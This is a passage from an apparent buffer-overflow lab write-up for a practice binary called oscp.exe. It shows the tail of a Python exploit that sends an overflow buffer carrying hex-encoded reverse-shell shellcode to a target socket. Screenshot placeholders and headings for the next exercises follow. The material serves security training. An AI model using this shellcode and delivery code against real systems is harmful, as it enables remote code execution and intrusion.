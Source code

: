 ```python
    b"\x8d\xcd\x9f\x12\xd9\x9d\xde\xff\x0d\xa6\xb6\x29\x58\x9d"
    b"\xe6\x86\xdd\x8d\xe6\x96\xdd\xa5\x5c\xd9\x52\x2d\x49\x03"
    b"\x1a\xa7\xb3\xbe\x87\xc3\xa3\xca\xe5\xcf\xb6\xc7\xd1\x44"
    b"\x50\xbc\x9d\x9b\xe1\xbe\x14\x68\xc2\xb7\x72\x18\x33\x16"
    b"\xf9\xc1\x49\x98\x85\xb8\x5a\xbe\x7d\x78\x14\x80\x72\x18"
    b"\xde\xb5\xe0\xa9\xb6\x5f\x6e\x9a\xe1\x81\xbc\x3b\xdc\xc4"
    b"\xd4\x9b\x54\x2b\xeb\x0a\xf2\xf2\xb1\xcc\xb7\x5b\xc9\xe9"
    b"\xa6\x10\x8d\x89\xe2\x86\xdb\x9b\xe0\x90\xdb\x83\xe0\x80"
    b"\xde\x9b\xde\xaf\x41\xf2\x30\x29\x58\x44\x56\x98\xdb\x8b"
    b"\x49\xe6\xe5\xc5\x31\xcb\xed\x32\x63\x6d\x6d\xd0\x9c\xdc"
    b"\xe5\x6b\x23\x6b\x10\x32\x63\xea\x8b\xb1\xbc\x56\x76\x2d"
    b"\xc3\xd3\x36\x8a\xa5\xa4\xe2\xa7\xb6\x85\x72\x18"
)
postfix = ""

# Build and send the buffer
buffer = prefix + overflow + retn + padding + payload.decode('latin-1') + postfix

print(f"[+] Connecting to {ip}:{port}...")
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((ip, port))
    print(f"[+] Sending {len(buffer)} bytes payload...")
    s.send(buffer.encode('latin-1') + b"\r\n")
    print("[+] Payload sent.")

print("[+] Done. Check your listener for a shell!")
```

We need to restart it and send the exploit:

![](cybersecurity/images/Pasted%2520image%252020250529131124.png)

If we got our listener ready, we will receive the connection:

![](cybersecurity/images/Pasted%2520image%252020250529131143.png)

We can now answer the questions:

![](cybersecurity/images/Pasted%2520image%252020250529131224.png)


From now on, since the process is pretty much the same, you guys can practice by trying to get a reverse shell in every single `OVERFLOW`. If you got any problem, check the answers below.

# oscp.exe - OVERFLOW2

---


![](cybersecurity/images/Pasted%2520image%252020250529132544.png)


# oscp.exe - OVERFLOW3

---